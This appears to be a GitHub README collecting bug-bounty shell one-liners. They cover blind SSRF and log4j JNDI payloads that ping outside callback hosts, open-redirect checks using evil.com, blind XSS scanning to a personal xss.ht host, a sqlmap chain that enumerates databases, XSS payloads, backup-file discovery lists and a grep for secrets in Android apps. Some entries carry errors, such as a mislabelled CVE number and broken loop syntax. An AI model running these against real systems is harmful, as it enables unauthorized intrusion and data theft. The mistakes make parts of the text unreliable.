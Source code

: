# Blind SSRF Oneliner(X-Forwarded-Host):

`echo "testphp.vulnweb.com"|assetfinder|httprobe|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

`echo "testphp.vulnweb.com"|assetfinder|httpx|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

# Blind SSRF Oneliner:

`cat wayback.txt|gf ssrf |qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

`cat wayback.txt|gf ssrf |grep -a -i \=http|qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

# Open Redirect Oneliner:

`cat waybackurls_result.txt|grep -a -i \=http|qsreplace 'http://evil.com'|while read host do;do curl -s -L $host -I|grep "evil.com" && echo "$host \033[0;31m[+]VULNERABLE-TO-OPEN-REDIRECT-ATTACK\n";done`

# Blind XSS Oneliner:

`echo testphp.vulnweb.com|gau -subs|grep "https://" |grep -v "png\|jpg\|css\|js\|gif\|txt"|grep "="|uro|dalfox pipe --deep-domxss --multicast --blind akshayravi0479.xss.ht`

# Content Discovery With Dirsearch Oneliner:

`dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u http://target`

# SQLI Oneliner With Sqlmap:
```
1 subfinder -d target.com|tee -a domains.txt
2 cat domains.txt|httpx|tee -a urls-alive.txt
3 cat urls-alive.txt|waybackurls|tee -a urls-check.txt
4 gf sqli urls-check.txt >> sql.url
5 sqlmap -m sql.url --dbs --batch
```

# CVE-2021-4428 log4j Oneliner With User-Agent Payload:

`while read url; do log4=$(curl -s -L $url -H User-Agent: "$\{jndi:ldap://your-pingback-client-url.com}");echo -e "$url -> User-Agent: Fired";done`

# Scan Ports and Vulnerabilities CVE using nrich

```
https://gitlab.com/shodan-public/nrich
https://github.com/projectdiscovery/dnsx
```

![nrich](https://user-images.githubusercontent.com/58636452/157049702-6afd8a8a-5858-42d7-9ef4-3d94b650d69c.jpg)

# Open Redirect:
```
https://target[.]com///google[.]com/  --> 404 Not found
https://target[.]com///google[.]com/?qwerty  --> Redirects to google[.]com
```
# XSS Scanner

```
echo https://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```
# Dir-enum-list:
```
/.git
/.git-rewrite
/.git/HEAD
/.git/index
/.git/logs
/.gitattributes
/.gitconfig
/.gitkeep
/.gitmodules
/.gitreview
/.svn/entries
/.svnignore
```
# Favicon Hash Finder python script:
```
import mmh3,requests,codecs,sys,urllib3

urllib3.disable_warnings()

if len(sys.argv) == 1:
	print("[!]Please provide a valid URL, If you are facing some issue please add http:// or https:// befor the url")
	print("[+]Example: python3 Hash.py https://www.google.com/favicon.ico")
	exit()

response =requests.get(sys.argv[1], verify=False)
favicon = codecs.encode(response.content,'base64')
hash= mmh3.hash(favicon)
print('[+]shodan search query: http.favicon.hash:'+str(hash))

```
# XSS Payloads:

```
xss%27;eval.call`${%27alert\x28window.origin\x29%27}`;//
"/><details/open/ontoggle=promt(1)>
```

# One liner to extract sensitive info from android apk
```
grep -EHirn "accesskeyladmin|aes|api_keylapikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/

```

# Burpsuite Scope Generator:
`https://xcapri.github.io/scopegen/index.html`
